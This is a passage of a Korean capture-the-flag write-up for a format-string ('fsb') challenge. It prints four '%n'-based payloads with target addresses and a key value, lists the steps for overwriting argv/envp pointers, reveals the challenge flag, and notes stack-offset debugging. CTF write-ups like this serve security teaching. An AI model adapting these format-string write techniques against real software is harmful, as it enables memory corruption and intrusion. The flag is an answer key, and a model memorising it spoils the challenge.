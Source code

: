 이렇게 바꾸고 나머지 공격 2번만에 저 5번째 바이트를 0으로 바꿀 수 있게된다.

위의 아이디어를 기반으로 페이로드를 짜보면

```python
payload1 = '%8x' * 12 + '%134520832x%nAAAA%n'
payload2 = '%8x' * 19 + '%n'
payload3 = '%8x' * 12 + '%134520833x%n' + 'AAAAAAAAAAAAAAAAAAAAA'
payload4 = '%8x' * 19 + '%n'
key = 39064
```

1. argv=0x804a060, envp=0x804a064로 동시에 설정하고
2. argv와 envp를 참조해 키 변수를 이렇게 조작하고
```
98 00 00 00 98 00 00 00
```
3. argv=0x804a061로 덮어쓰고
4. %n으로 상위 4바이트를 0으로 만들면 끝!

참고로 세번째 페이로드에서 AAAAA는 read함수가 입력값을 읽어들일때 끝을 null로 안끝내줘서 붙여넣은거임

어쨌든 저대로 페이로드를 전송하면

![정답](https://user-images.githubusercontent.com/67177785/141687614-238b932c-ee1d-4812-814f-497ce05702bf.PNG)

플래그를 보여준다

flag : Have you ever saw an example of utilizing [n] format character?? :(

# 비하인드

## 삽질#1

아니 근데 문자열 입력제한이 100바이트인데 0x804a060같은 길이를 어떻게 출력하니?

문제가 말이 안된다

근데 말이 안되던건 나였지

%10000d처럼 쓰면 숫자포함 출력 길이를 10000으로 만들수 있으니까

## 삽질#2

fsb 프로시저에서 처음에 스택을 0x48만큼 할당하고

pargv는 ebp-0x10 위치 고정이니까 스택 최상단 기준 오프셋은 0x38(=56)

4로 나누면 14, %x를 14번 하고 %n 넣어주면 argv값을 조작할 수 있겠네~

ㅇㅋ 그럼 한번 해봅시다

```
1트

pargv 주소 : 0xff838b08
argv 주소(pargv 값) : 0xff838b20
마지막으로 출력된 값 : 0xff838b20
```
